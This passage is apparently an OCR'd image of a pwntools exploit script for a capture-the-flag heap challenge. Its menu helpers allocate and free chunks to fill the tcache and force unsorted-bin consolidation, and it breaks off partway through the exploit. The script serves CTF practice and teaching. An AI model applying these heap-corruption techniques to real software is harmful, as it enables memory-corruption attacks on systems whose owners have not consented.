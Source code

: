 ```
  while True:
    log.info( r.recvline() )

def add( length, name, nickname):
  r.recvuntil("choice:")
  r.sendline('1')
  r.recvuntil("girl's name")
  r.sendline( str(length) )
  r.recvuntil("her name:")
  r.sendline( name )
  r.recvuntil("call:")
  r.sendline( nickname )

def show( index ):
  r.recvuntil("choice:")
  r.sendline('2')
  r.recvuntil("index:")
  r.sendline( str(index) )

def edit(index):
  r.recvuntil("choice:")
  r.sendline('3')

def call_girl(index):
  r.recvuntil("choice:")
  r.sendline('4')
  r.recvuntil("index:")
  r.sendline(str(index))

def give_up():
  r.recvuntil("choice:")
  r.sendline('5')

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def exploit():
 girls_till_now = 0
 add(0x18 -0x8, "A", "1") #0
 add(0x18 -0x8, "B", "2") #1
 call_girl(0)
 call_girl(1)
 add(0x90 -0x8, "consolidate", "1") #2
 #call_girl( girls_till_now )
 add(0x90 -0x8, "consolidate", "1") #3
 girls_till_now += 4

 for x in range(7):
  print("till now:{0}".format(x))
  add(0x90 - 0x8, "x", "1") #10
 for x in range(girls_till_now, girls_till_now + 7):
  call_girl(x)
 girls_till_now += 7
 add(0x18-0x8, "just lucky", "2") #11
 add(0x18-0x8, "just lucky", "2") #12
 call_girl( 11 )
 call_girl( 12 )

 # consolidate in unsorted
 call_girl( 2 ) #chunk A
 call_girl( 3 ) #chunk B
```